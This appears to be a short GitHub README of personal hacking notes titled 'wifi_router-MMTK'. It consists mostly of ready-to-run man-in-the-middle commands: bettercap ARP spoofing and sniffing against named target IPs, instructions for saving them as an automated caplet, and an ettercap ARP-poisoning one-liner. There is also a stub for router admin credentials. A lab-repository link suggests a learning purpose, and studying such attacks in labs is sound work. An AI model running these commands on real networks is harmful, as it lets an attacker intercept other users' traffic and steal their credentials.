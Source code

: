 # wifi_router-MMTK


bace64 decuder:- https://www.google.com/amp/s/amp.base64decode.org/

### bettercap -iface wlan0
  
    
 
 net.probe on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 arp.spoof on
 
 set net.sniff.local true
 
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master



## Ettercap wifi admin penel

 user:-

 password:- 



ettercap -Tq -M arp:remote -i wlan0 ///

